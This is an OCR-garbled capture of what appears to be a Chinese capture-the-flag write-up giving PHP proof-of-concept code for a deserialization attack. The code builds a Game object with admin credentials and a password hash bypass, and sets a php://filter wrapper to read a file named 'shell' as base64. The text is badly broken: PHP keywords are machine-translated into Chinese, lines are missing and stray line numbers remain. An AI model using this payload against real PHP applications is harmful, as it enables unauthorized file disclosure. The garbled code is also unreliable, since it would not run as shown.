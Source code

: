     43   
    44   
    45   
    46   
    47   
    48  
    

|

    
    
      
    class  Game { public $username ; 公共$password ; 公共$choice ; 公共$register ;  
            
            
            
            
      
        公共  $file ; 公共$ 文件名；公开$content ; 公共函数__construct (  
            
            
          
          )  
         { $this ->username= 'user' ; $this ->password= '用户' ;     }  
              
              
      
      
        公共 函数 __wakeup () { if (md5( $this ->register)=== "21232f297a57a5a743894a0e4a801fc3" ){     // admin $this ->choice= new login( $this ->file, $this ->filename, $this ->content) ;         } else { $this ->choice = new register();         }     }公共函数__destruct (  
              
                  
      
                  
      
      
          ) { $this ->choice->checking( $this ->username, $this ->password);     }  
              
      
      
    }  
      
    类 登录{公共$file ; 公共$ 文件名；   公开$content ; }  
           
           
           
      
      
    class  Open { function open ( $filename , $content ) {    }} $poc = new Game(); $poc ->username = "admin" ; $poc ->password = "admin" ; $poc ->register = "admin" ; $poc ->file = new Open(); $poc ->filename = "php://filter/read=convert.base64-encode/resource=shell" ; $poc ->content = "xxx" ;  
           
      
      
      
      
      
      
      
      
      
    $poc ));  
      
  
---|---  
  
`  
`

`执行POC得到payload：`
